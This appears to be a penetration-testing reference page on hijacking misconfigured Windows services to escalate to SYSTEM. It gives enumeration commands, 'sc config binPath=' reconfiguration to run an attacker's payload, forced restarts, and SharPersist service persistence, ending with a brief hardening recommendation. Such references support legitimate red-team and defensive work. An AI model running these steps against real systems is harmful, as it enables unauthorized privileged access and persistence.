 # Service Hijacking
---

## Vulnerability

Windows services are very often run as `NT AUTHORITY/SYSTEM`. In case they are not properly configured with strict permissions, they can be abused to hijack to configured binary that is run by the service to escalate your privileges locally.

## Prerequisites

* Low privileges access to the targeted system.
* At least one of the following:
    * Service run as `NT AUTHORITY/SYSTEM` has weak permissions such as *ChangeConfig*, *Start* and *Stop*.
    * Service's binary run as `NT AUTHORITY/SYSTEM` has weak permissions such as *Modify* or *Full Control*.

## Exploit

### Weak service permissions

First, identify potentially vulnerable services manually, or by using tools such as [SharpUp](https://github.com/GhostPack/SharpUp) or [WinPEAS](https://github.com/carlospolop/PEASS-ng).

```powershell
.\SharpUp.exe audit ModifiableServices
.\WinPEAS.exe
```

Look for weak permissions `ChangeConfig` for an `IdentifyReference` you own (`Authenticated Users` for instance). To do so, you can use [Get-ServiceAcl](https://gist.github.com/cube0x0/1cdef7a90473443f72f28df085241175) PowerShell script.

```powershell
Import-Module .\Get-ServiceAcl.ps1
Get-ServiceAcl -Name $ServiceName | Select -Expand Access
```

Check binary path then reconfigure it, and restart it.

```bash
sc qc $ServiceName
sc config $ServiceName binPath= $PayloadPath
```

If you have permissions to *Start* and *Stop* the service, do it. Otherwise, wait for - *or force* - a reboot.

```bash
sc stop $ServiceName
sc start $ServiceName
```

{: .warning }
> To restore the previous executable path, don't forget to quote it like `binPath= \""C:\Program Files\My Service\Binary.exe"\"` so you don't introduce an [unquoted service path](/windows/unquoted/) vulnerability.

### Weak binary permissions

Sometimes, the binary itself run by the service can be vulnerable to hijacking. You can automatically find them by using tools such as [SharpUp](https://github.com/GhostPack/SharpUp) or [WinPEAS](https://github.com/carlospolop/PEASS-ng).

```powershell
.\SharpUp.exe audit ModifiableServiceBinaries
.\WinPEAS.exe
```

To check permissions on a binary, enter one of the following commands.

```powershell
# Native PowerShell.
Get-Acl -Path $ExecutablePath | Format-List

# With cmd.
icacls "$ExecutablePath"
```

If you a user you own can change (either *Modify* or *Full Control* rights) the binary, bingo! You can therefore change it with your prefered payload. The, if you have permissions to *Start* and *Stop* the service, do it. Otherwise, wait for - *or force* - a reboot.

## Persistance

To persist on a machine with high privileges, it is recommended to create your own service instead of modifying an existing one.

```powershell
.\SharPersist.exe -t service -c $ExecutablePath -n $ServiceName -m add

# New service is stopped by default, start iit manually and ensure it will automatically start at each reboot.
Set-Service -Name $ServiceName -StartupType Automatic
Set-Service -Name $ServiceName -Status Running -PassThru
```

## Recommendations

- [ ] Enforce strong permissions on services, especially the ones running as `NT AUTHORITY\SYSTEM`, that avoid any unprivileged user to modify services configuration or binaries.